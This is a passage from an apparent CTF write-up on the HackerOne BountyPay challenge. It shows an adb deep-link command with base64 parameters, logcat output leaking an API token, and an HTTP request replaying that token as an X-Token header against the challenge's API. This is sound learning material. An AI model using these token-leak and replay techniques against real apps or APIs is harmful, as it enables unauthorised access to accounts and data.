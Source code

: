 ```java
                                PartThreeActivity.this.thread.start();
                            }
                        }
                    }

                }
            });
}
```

Some parameters must be base64 encoded and a header value must be provided. The adb command looks like this:

```bash
$ adb shell am start -a android.intent.action.VIEW -d "three://part?three=UGFydFRocmVlQWN0aXZpdHk%3D\&switch=b24%3D\&header=X-Token"
```

This revealed a form where I was asked to submit a leaked hash:

 

{F853789}

What leaked hash? I started looking around, double clicking on the BountyPay logo told me to check for leaks. I checked the logs using logcat and found this:

```
TOKEN IS: : 8e9998ee3137ca9ade8f372739f062c1
HEADER VALUE AND HASH : X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

I submitted the hash and voilà!

{F853791}

When I then clicked on the logo I saw a message that told me the information I got from the app might be useful, let's see.


# Creating a staff account using the leaked API token and some social network intel

Remember the **401 Unauthorized** response I got when I tried accessing the [https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/](https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/) endpoint directly? The error message mentioned a missing token. I tried again, but this time with the X-Token header:

```
GET /api/accounts/F8gHiqSdpK/ HTTP/1.1
Host: api.bountypay.h1ctf.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Connection: close
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```
